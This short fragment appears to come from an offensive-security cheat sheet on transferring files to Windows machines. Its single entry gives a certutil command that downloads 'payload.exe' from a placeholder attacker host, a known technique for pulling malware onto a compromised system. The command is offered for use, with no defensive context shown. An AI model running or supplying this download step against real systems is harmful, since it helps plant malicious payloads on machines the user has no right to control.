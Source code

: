 ## On Windows:
### HTTP with certutil:
```cmd
certutil -urlcache -f http://attacker.com/payload.exe payload.exe
```